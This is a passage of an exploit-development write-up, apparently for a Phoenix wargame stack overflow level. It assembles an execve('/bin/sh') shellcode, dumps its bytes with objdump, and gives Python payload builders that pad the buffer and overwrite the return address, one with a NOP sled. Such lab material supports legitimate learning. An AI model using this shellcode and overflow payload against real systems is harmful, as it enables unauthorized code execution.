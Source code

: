 > For this you’ll need `nasm` and `ld`. Phoenix is old Debian — so you may need to update and install NASM first:

```bash
nasm -f elf64 /tmp/shellcode.asm -o /tmp/shellcode.o
ld /tmp/shellcode.o -o /tmp/shellcode
```

### Dumping Shellcode

```bash
objdump -d /tmp/shellcode | grep '[0-9a-f]:' | \
  cut -f2- -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | \
  sed 's/ $//' | sed 's/ /\\x/g' | sed 's/^/"/' | sed 's/$/"/'
```

This gives:

```c
"\x48\x31\xc0"
"\x48\xbb\x2f\x62\x69\x6e"
"\x2f\x73\x68\x00"
"\x53"
"\x48\x89\xe7"
"\x48\x31\xf6"
"\x48\x31\xd2"
"\xb0\x3b"
"\x0f\x05"
```

### Python Payload Builder

```python
import sys
import struct
addr = struct.pack("<Q", 0x7fffffffebe0)  # address to jump to
shellcode = (
    b"\x48\x31\xc0"
    b"\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
    b"\x53"
    b"\x48\x89\xe7"
    b"\x48\x31\xf6"
    b"\x48\x31\xd2"
    b"\xb0\x3b"
    b"\x0f\x05"
)
length = 136 - len(shellcode)
sys.stdout.buffer.write(shellcode + length * b'A' + addr)
```

### With NOP sled

```python
import sys
import struct
addr = struct.pack("<Q", 0x7fffffffebe0)
shellcode = 54 * b"\x90"  # NOP sled
shellcode += (
    b"\x48\x31\xc0"
    b"\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
    b"\x53"
    b"\x48\x89\xe7"
    b"\x48\x31\xf6"
    b"\x48\x31\xd2"
    b"\xb0\x3b"
    b"\x0f\x05"
)
```